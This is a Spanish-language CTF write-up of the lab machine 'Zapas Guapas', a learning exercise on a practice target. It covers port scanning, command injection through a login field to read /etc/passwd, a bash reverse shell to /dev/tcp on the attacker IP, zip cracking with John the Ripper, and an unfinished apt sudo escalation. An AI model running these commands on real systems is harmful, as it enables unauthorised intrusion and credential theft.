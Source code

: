 # CTF - The Hackers Labs - Zapas Guapas

## 📑 Información General

- **Nombre:** Zapas Guapas
- **Dificultad:** Fácil
- **SO:** #Linux
- **Vulnerabilidad principal:** RCE vía upload y permisos mal gestionados
- **Fecha resolución:** 06/06/2025
- **MD5:** 5fb33aa94692884e98137a77aea6b435
- **Enlace:** https://thehackerslabs.com/zapas-guapas/

>[!tip] Objetivo
>Obtener las flags: 
> - 🚩 user.txt 
> - 🚩 root.txt

## 🔎 Reconocimiento

### Escaneo Inicial

IP máquina víctima: **192.168.10.23**

Comprobamos la conectividad enviando un paquete `icmp` a dicha máquina. Además, en función del TTL sabremos distinguir el SO instalado en la misma. Dado que su TTL es 64, estamos frente a una máquina **Linux**.

![[Zapas Guapas (1).png]]

### Escaneo de Puertos

A continuación, proseguimos con un escaneo de puertos. El resultado revela que los puertos **22** y **80** se encuentran abiertos y accesibles.

```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.10.23
```

![[Zapas Guapas (2).png]]

### Enumeración de Servicios

| Puerto | Servicio |    Versión    |    Notas     |
| ------ | -------- |:-------------:|:------------:|
| 22     | SSH      | OpenSSH 9.2p1 |      -       |
| 80     | HTTP     | Apache 2.4.57 | Servidor web |

## 🌐 Exploración

### Reconocimiento Web

Introducimos la IP de la máquina víctima en el navegador para dirigirnos al sitio web. Analizamos el código fuente, pero no encontramos nada relevante a primera vista.

![[Zapas Guapas (3).png]]
![[Zapas Guapas (6).png]]

![[Zapas Guapas (7).png]]

Emplearemos la herramienta **Gobuster** para hacer fuzzing y listar los directorios que contenga el sitio.

![[Zapas Guapas (5).png]]

Encontramos dos ficheros interesantes: `/login.html` y `/nike.php`. Accedemos al primero y nos encontraremos con un panel de login.

![[Zapas Guapas (4).png]]

Estudiando un poco con **Burp Suite** el envío de peticiones, descubro que al introducir cualquier cadena en el campo *password* se hace una llamada al fichero `/run_command.php` y se ejecuta como comando.

![[Zapas Guapas (8).png]]

Probamos a visualizar el fichero `/etc/passwd` y, efectivamente, la web nos lo muestra.

![[Zapas Guapas (9).png]]

Obtenemos 3 usuarios, **root**, **proadidas** y  **pronike**. 

### Intrusión con www-data

Ponemos la máquina atacante en modo escucha en el puerto 4444.

```bash
nc -lvnp 4444
```

Escribimos el siguiente comando en el campo de contraseña del panel de login para abrir una **reverse shell** y ejecutaremos algunos comandos para el tratamiento de la TTY.

```bash
bash -c "sh -i >& /dev/tcp/192.168.10.22/4444 0>&1"
```

Hemos conseguido la intrusión en la máquina víctima con el usuario **www-data**.

![[Zapas Guapas (10).png]]

Exploramos un poco los directorios de **proadidas** y **pronike**, y vemos que tenemos acceso a un fichero en el `home` de pronike.

![[Zapas Guapas (11).png]]

Seguimos explorando y encontramos un fichero llamado `importante.zip` en el directorio `/opt`. Nos movemos a ese directorio y levantamos temporalmente un servidor web con `python` para poder transferirlo a nuestra máquina atacante y descomprimirlo. 

Para levantar el servidor web, escribimos:

```bash
python3 -m http.server 8080
```

![[Zapas Guapas (12).png]]

En nuestra máquina atacante ejecutamos:

```bash
wget http://192.168.10.23:8080/importante.zip
```

Intentamos descomprimirlo pero tiene contraseña, así que le aplicaremos fuerza bruta con **John The Ripper**.

![[Zapas Guapas (13).png]]

## ⚔️ Explotación

Extraemos el hash del fichero con la herramienta `zip2john` y redireccionamos la salida a un fichero que llamaremos *"hash"*.

```bash
zip2john importante.zip > hash
```

![[Zapas Guapas (14).png]]

Acto seguido, ejecutamos `john` para crackear el hash y averiguar su contraseña. Obtenemos una, **hotstuff**.

![[Zapas Guapas (15).png]]

Volvemos a intentar descomprimir el fichero `importante.zip`, esta vez introduciendo la contraseña descubierta, y visualizamos el fichero que contiene.

![[Zapas Guapas (16).png]]

Iniciamos sesión mediante **SSH** en la máquina atacante con el usuario **pronike** y la contraseña **pronike11**.

![[Zapas Guapas (17).png]]

## 🔐Escalada de Privilegios

Ejecutamos el comando `sudo -l` para comprobar los privilegios del usuario con el que hemos hecho login y buscamos el binario GTFOBINS para ver podemos explotarlo.

![[Zapas Guapas (18).png]]

Podemos usar el comando `apt` como el usuario **proadidas**.

```bash
sudo /usr/bin/apt changelog apt
!/bin/sh 
```

---

# Aclaración

A partir de aquí, me ha resultado imposible continuar. 

La ejecución del comando `sudo /usr/bin/apt changelog apt` me devolvía un error ya que los repositorios estaban desactualizados y no invocaba el pager `less`, por lo que no podía escribir `!/bin/sh` y abrir una shell como **proadidas**. Como es una máquina preparada, no sé hasta qué punto actualizarla puede romper el CTF, así que he decidido dejarlo aquí.

De todas formas, anexaré la continuación del Write Up de [beafn28](https://beafn28.gitbook.io/beafn28/writeups/the-hacker-labs/zapas-guapas#privilegios), que lo explica muy bien.

¡Un saludo!